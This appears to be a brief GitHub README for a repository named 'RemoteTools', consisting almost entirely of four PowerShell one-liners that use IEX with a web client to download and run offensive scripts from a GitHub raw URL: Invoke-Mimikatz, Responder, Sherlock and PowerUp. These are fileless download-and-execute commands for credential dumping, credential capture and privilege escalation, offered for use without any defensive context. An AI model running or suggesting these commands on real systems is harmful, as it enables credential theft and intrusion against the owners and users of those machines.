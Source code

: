 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')
